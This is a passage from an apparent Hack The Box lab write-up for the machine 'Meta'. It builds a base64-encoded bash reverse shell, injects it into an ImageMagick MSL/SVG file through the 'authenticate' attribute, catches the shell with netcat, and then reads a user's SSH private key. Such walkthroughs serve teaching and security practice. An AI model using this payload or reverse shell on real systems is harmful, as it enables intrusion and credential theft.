 To avoid special characters, I’ll base64 encode a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK

```

I’ve added a couple extra spaces to get rid of a `+` and the `=`. Now I’ll generate the payload:

```

<image authenticate='ff" `echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK" | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:mog-shell.svg" height="100" width="100"/>
  </svg>
</image>

```

I’ll upload that to Meta as `mog-shell.svg` (matching the `xlink:href` line in the file). I can test it to get a shell as www-data, or wait for the cron which creates a shell as thomas:

```

oxdf@hacky$ nc -lvnp 444
Listening on 0.0.0.0 444
Connection received on 10.10.11.140 36076
bash: cannot set terminal process group (3961): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$

```

### SSH

I could upgrade my shell, but there’s also an RSA key pair in `/home/thomas/.ssh`:

```

thomas@meta:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
...[snip]...

```
